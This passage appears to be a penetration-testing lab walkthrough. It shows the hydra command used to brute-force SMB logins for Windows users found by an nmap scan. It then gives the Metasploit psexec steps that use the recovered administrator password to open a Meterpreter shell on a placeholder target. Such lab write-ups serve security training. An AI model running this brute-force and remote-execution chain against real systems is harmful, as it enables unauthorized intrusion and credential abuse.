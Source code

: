 This nmap script scan would take some time. Please wait patiently.

From the list of information retrieved, we found a couple of engaging data, such as running processes, users, services, installed applications, etc.

However, analyzing the results, one absorbing information we could extract is the list of Windows users:

### Now, let's run a brute-force attack using these windows users on SMB service.

Remember, port 445 is open, and we can run a brute-force attack using the hydra tool.

First, let's save two usernames in a file. i.e administrator and admin

```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target_ip_local smb

#The hydra switches are described in the help: hydra -help. However, the most relevant parts of the command are explained below:

-L users.txt

# This is the dictionary file containing a list of users.

-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

***SMB***

This is the protocol that should be used by hydra to perform the brute-force attack.
After a couple of minutes, we should see the following results:
Thus, hydra successfully found a valid password for administrator and admin users.

### Now, we will run the psexec Metasploit exploit module to gain the meterpreter session using these credentials.

Let's try to get a shell on this system using the PSExec module of the Metasploit framework.


```bash
msfconsole -q
use exploit/windows/smb/psexec
show options
```

As we can see, we have to set RHOSTS SMBUSER and SMBPASS.
Rest all other essential values, i.e. PAYLOAD, and LHOST, is already set.

Let's set all these values and exploit the target.

```bash
set RHOSTS target_ip_local
set SMBUSER administrator
set SMBPASS elizabeth
exploit

```
